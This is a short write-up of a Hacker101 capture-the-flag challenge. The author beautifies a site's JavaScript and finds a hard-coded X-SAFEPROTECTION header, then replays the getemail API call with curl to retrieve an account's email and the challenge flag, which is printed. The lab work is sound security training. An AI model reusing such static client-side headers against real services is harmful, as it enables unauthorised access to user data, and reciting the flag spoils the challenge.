 Taking a look at the source code i notice it has some `.js` files. Looking at `custom.js` i copy the code and put it into an online beautifier to make it more readable. It has two interesting functions: `edit-profile` and `retrieve-email`. I'll explore these further with burp. 

_Tip: I can easily access this by using developer tools and looking in the debugger section in firefox._

```js
function editProfile(e) {
    var t = new XMLHttpRequest;
    t.open("POST", "api/action.php?act=editbio", !0), t.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"), t.setRequestHeader("X-SAFEPROTECTION", "enNlYW5vb2Zjb3Vyc2U="), t.onreadystatechange = function() {
        this.readyState === XMLHttpRequest.DONE && this.status
    }, t.send("bio=" + encodeURI(msg))
}

function retrieveEmail(e) {
    var t = new XMLHttpRequest;
    t.open("GET", "api/action.php?act=getemail", !0), t.setRequestHeader("X-SAFEPROTECTION", "enNlYW5vb2Zjb3Vyc2U="), t.onreadystatechange = function() {
        this.readyState === XMLHttpRequest.DONE && this.status
    }, t.send()
}
```

`"POST", "api/action.php?act=editbio"`

`"GET", "api/action.php?act=getemail"`

- Adding `api/action.php?act=getemail` to the original URL seemed to do nothing for me;
- Adding `&& console.log(t.responseText)` to the `onreadystatechange` function:

```js
var t=new XMLHttpRequest;
t.open("GET","api/action.php?act=getemail",!0)
t.setRequestHeader("X-SAFEPROTECTION","enNlYW5vb2Zjb3Vyc2U=")
t.onreadystatechange = function(){ 
    this.readyState === XMLHttpRequest.DONE && this.status && console.log(t.responseText) 
}
t.send()
```

I manage to use curl to get the account details:

```php
curl 'https://f2388ebb4728670b08997ed7a6301d7a.ctf.hacker101.com/api/action.php?act=getemail' --http1.1 -H 'X-SAFEPROTECTION: enNlYW5vb2Zjb3Vyc2U=' 
```

- Custom header `-H`
- Specify http version `--http1.1`

`{'email':'zseano@ofcourse.com','flag':'^FLAG^cd0505fb79adfafc334103fada02109a54e285eeeae580dbac815e475a33be44$'}`

**Flag:**

`^FLAG^cd0505fb79adfafc334103fada02109a54e285eeeae580dbac815e475a33be44$'`

---

**Completed:** _09:41 2024-09-07_

